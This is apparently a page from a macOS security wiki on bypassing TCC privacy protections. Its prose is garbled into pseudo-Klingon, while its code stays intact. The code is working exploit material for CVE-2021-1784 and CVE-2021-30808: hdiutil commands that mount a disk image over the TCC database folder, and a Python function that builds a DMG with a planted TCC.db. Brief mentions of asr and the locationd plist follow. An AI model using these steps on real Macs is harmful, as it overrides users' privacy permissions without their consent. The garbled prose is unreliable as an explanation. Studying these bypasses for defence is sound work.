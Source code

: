 **Qapla'!**

**[**ghItlh'a'**](https://theevilbit.github.io/posts/cve\_2020\_9771/) **tlhIngan Hol vItlhutlhlaHbe'chugh.**

### CVE-2021-1784 & CVE-2021-30808 - TCC file qach

TCC DB file qach, **tugh** **qach** **tugh** **TCC.db** **file** **mount** **'e'** **'e'**:

{% code overflow="wrap" %}
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
{% endcode %}
```python
# This was the python function to create the dmg
def create_dmg():
os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
os.system("mkdir /tmp/mnt")
os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```
**full exploit** **'ej** [**original writeup**](https://theevilbit.github.io/posts/cve-2021-30808/) **vItlhutlh**.

### asr

**`/usr/sbin/asr`** **DIvI' 'ej DISmey 'ej 'oH 'e' vItlhutlh TCC protections.

### Location Services

**`/var/db/locationd/clients.plist`** **Hoch 'ej location services** **ghap vItlhutlh** TCC database.\
**`/var/db/locationd/`** **DMG mounting** **ghap vItlhutlh** **tlhutlh** **vItlhutlh** plist.

## By startup apps

{% content-ref url="../../../../macos-auto-start-locations.md" %}
[macos-auto-start-locations.md](../../../../macos-auto-start-locations.md)
{% endcontent-ref %}

## By grep
